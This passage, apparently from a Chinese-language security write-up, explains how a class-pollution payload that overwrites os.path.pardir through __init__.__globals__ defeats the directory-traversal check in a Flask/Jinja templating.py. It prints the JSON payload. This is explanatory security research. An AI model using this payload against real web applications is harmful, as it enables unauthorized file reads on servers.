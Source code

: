 然后我们找到 temlating.py 下面的报错信息，然后逐步跟一下找到了报 500 的代码块：

[![](assets/1700528987-2c1b8f6f842483ab55ef51881e390838.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119132324-c2c27d54-869b-1.png)

这个地方就是模板渲染的时候，防止目录穿梭进行的一个操作，而我们的 os.path.pardir 恰好是我们的..所以会进行报错，所以我们如果把这个地方进行修改为除..外的任意值，我们就可以进行目录穿梭了。

```plain
payload={
    "__init__":{
        "__globals__":{
            "os":{
                "path":{
                    "pardir":","
                }
            }
        }
    }
}
```

[![](assets/1700528987-e1b001a4cee59db494bb855148c3945a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119132330-c6cbf36c-869b-1.png)
